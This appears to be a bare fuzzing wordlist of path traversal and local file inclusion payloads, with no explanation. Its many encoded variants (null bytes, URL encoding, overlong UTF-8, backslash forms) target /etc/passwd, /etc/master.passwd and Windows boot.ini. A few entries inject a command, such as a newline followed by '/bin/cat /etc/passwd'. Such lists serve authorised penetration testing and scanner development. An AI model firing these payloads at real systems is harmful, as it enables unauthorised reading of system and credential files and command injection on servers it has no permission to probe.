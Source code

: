 /etc/passwd%2500	
/etc/passwd%00	
/etc/passwd
///etc///passwd%2500	
///etc///passwd%00	
///etc///passwd
../etc/passwd%2500	
../etc/passwd%00	
../etc/passwd	
..///etc///passwd%2500	
..///etc///passwd%00	
..///etc///passwd	
..///..///etc///passwd%2500	
..///..///etc///passwd%00	
..///..///etc///passwd	
..///..///..///etc///passwd%2500	
..///..///..///etc///passwd%00	
..///..///..///etc///passwd	
..///..///..///..///etc///passwd%2500	
..///..///..///..///etc///passwd%00	
..///..///..///..///etc///passwd	
..///..///..///..///..///etc///passwd%2500	
..///..///..///..///..///etc///passwd%00	
..///..///..///..///..///etc///passwd	
..///..///..///..///..///..///etc///passwd%2500	
..///..///..///..///..///..///etc///passwd%00	
..///..///..///..///..///..///etc///passwd	
..///..///..///..///..///..///..///etc///passwd%2500	
..///..///..///..///..///..///..///etc///passwd%00	
..///..///..///..///..///..///..///etc///passwd	
..///..///..///..///..///..///..///..///etc///passwd%2500	
..///..///..///..///..///..///..///..///etc///passwd%00	
..///..///..///..///..///..///..///..///etc///passwd	
../../etc/passwd%2500	
../../etc/passwd%00	
../../etc/passwd	
../../../etc/passwd%2500	
../../../etc/passwd%00	
../../../etc/passwd	
../../../../etc/passwd%2500	
../../../../etc/passwd%00	
../../../../etc/passwd%00		
../../../../etc/passwd	
../../../../../etc/passwd%00	
../../../../../etc/passwd	
../../../../../../etc/passwd%2500	
../../../../../../etc/passwd%00	
../../../../../../etc/passwd	
../../../../../../../etc/passwd%2500	
../../../../../../../etc/passwd%00	
../../../../../../../etc/passwd	
../../../../../../../../etc/passwd%2500	
../../../../../../../../etc/passwd%00	
../../../../../../../../etc/passwd
\etc\passwd%2500	
\etc\passwd%00	
\etc\passwd	
..\etc\passwd%2500	
..\etc\passwd%00	
..\etc\passwd	
..\..\etc\passwd%2500	
..\..\etc\passwd%00	
..\..\etc\passwd	
..\..\..\etc\passwd%2500	
..\..\..\etc\passwd%00	
..\..\..\etc\passwd	
..\..\..\..\etc\passwd%2500	
..\..\..\..\etc\passwd%00	
..\..\..\..\etc\passwd	
..\..\..\..\..\etc\passwd%2500	
..\..\..\..\..\etc\passwd%00	
..\..\..\..\..\etc\passwd	
..\..\..\..\..\..\etc\passwd%2500	
..\..\..\..\..\..\etc\passwd%00	
..\..\..\..\..\..\etc\passwd	
..\..\..\..\..\..\..\etc\passwd%2500	
..\..\..\..\..\..\..\etc\passwd%00	
..\..\..\..\..\..\..\etc\passwd	
..\..\..\..\..\..\..\..\etc\passwd%2500	
..\..\..\..\..\..\..\..\etc\passwd%00	
..\..\..\..\..\..\..\..\etc\passwd
%00../../../../../../etc/passwd
%00/etc/passwd%00
%0a/bin/cat%20/etc/passwd
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd
\\&apos;/bin/cat%20/etc/passwd\\&apos;
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
/..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../etc/passwd
/etc/default/passwd
/etc/master.passwd
././././././././././././etc/passwd
.//.//.//.//.//.//.//.//.//.//.//.//etc//passwd
/./././././././././././etc/passwd
/../../../../../../../../../../etc/passwd
/../../../../../../../../../../etc/passwd^^
/..\../..\../..\../..\../..\../..\../etc/passwd
/etc/passwd
../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../etc/passwd
../../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../../etc/passwd
../../../../../../../etc/passwd
../../../../../../etc/passwd
../../../../../etc/passwd
../../../../etc/passwd
../../../etc/passwd
../../etc/passwd
../etc/passwd
..\..\..\..\..\..\..\..\..\..\etc\passwd
.\\./.\\./.\\./.\\./.\\./.\\./etc/passwd
\..\..\..\..\..\..\..\..\..\..\etc\passwd
etc/passwd
/etc/passwd%00
../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../etc/passwd%00
../../../../../../../../../etc/passwd%00
../../../../../../../../etc/passwd%00
../../../../../../../etc/passwd%00
../../../../../../etc/passwd%00
../../../../../etc/passwd%00
../../../../etc/passwd%00
../../../etc/passwd%00
../../etc/passwd%00
../etc/passwd%00
..\..\..\..\..\..\..\..\..\..\etc\passwd%00
\..\..\..\..\..\..\..\..\..\..\etc\passwd%00
/../../../../../../../../../../../etc/passwd%00.html
/../../../../../../../../../../../etc/passwd%00.jpg
../../../../../../etc/passwd&=%3C%3C%3C%3C
..2fetc2fpasswd
..2fetc2fpasswd%00
..2f..2fetc2fpasswd
..2f..2fetc2fpasswd%00
..2f..2f..2fetc2fpasswd
..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2fetc2fpasswd
..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2fetc2fpasswd
..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2fetc2fpasswd
..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2fetc2fpasswd
..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd
..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd
..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd
..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00
%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%255cboot.ini
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/boot.ini
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/boot.ini
..\../..\../..\../..\../..\../..\../boot.ini
/.\\./.\\./.\\./.\\./.\\./.\\./boot.ini
..//..//..//..//..//boot.ini
../../../../../../../../../../../../boot.ini
../../boot.ini
..\../..\../..\../..\../boot.ini
..\..\..\..\..\..\..\..\..\..\boot.ini
../../../../../../../../../../../../boot.ini%00
..\..\..\..\..\..\..\..\..\..\boot.ini%00
/../../../../../../../../../../../boot.ini%00.html
..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../boot.ini
C:/boot.ini
C:\boot.ini
../../../../../../../../../../../../boot.ini#
..\..\..\..\..\..\..\..\..\..\boot.ini#
../../../../../../../../../../../boot.ini#.html
